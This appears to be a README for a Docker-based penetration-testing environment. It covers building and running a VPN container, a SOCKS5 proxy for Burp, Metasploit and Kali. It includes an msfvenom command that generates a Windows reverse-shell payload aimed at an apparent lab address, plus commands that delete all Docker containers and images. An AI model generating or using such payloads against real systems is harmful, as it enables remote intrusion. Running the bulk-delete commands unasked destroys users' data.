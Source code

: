 ## Building

First update images

```
docker pull alpine
docker pull metasploitframework/metasploit-framework
```

Then build

```
docker build -t antfie/haksys .
```

## Running 

### VPN

```
docker run -it --rm -v $PWD/antfie.ovpn:/app/vpn --cap-add=NET_ADMIN --device /dev/net/tun --name vpn -p 9000-9100:9000-9100 --sysctl net.ipv6.conf.all.disable_ipv6=0 --entrypoint openvpn antfie/haksys vpn
```

### SOCKS5 Proxy (For Burp)

```
docker run --rm -it --network=container:vpn --name proxy --entrypoint ssh-proxy antfie/haksys
```

### Host

```
docker run --rm -it --network=container:vpn -v $PWD:/app antfie/haksys
```

To mount stuff e.g. NFS share add this param `--cap-add SYS_ADMIN`

### Other Tools


#### Metasploit

```
docker run --rm -it --network=container:vpn -v $PWD:/app metasploitframework/metasploit-framework
```

#### MSF Venom

```
docker run --rm -it --network=container:vpn -v $PWD:/app --entrypoint bash metasploitframework/metasploit-framework
/msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.32 LPORT=4189 -f csharp > /app/x
```

#### Kali

```
docker pull kalilinux/kali-rolling
docker run --rm -it --network=container:vpn -v $PWD:/app kalilinux/kali-rolling
```

## Docker Maintenance

Remove all containers and images

```
docker rm -f $(docker ps -a -q)
docker rmi $(docker images -q)
```
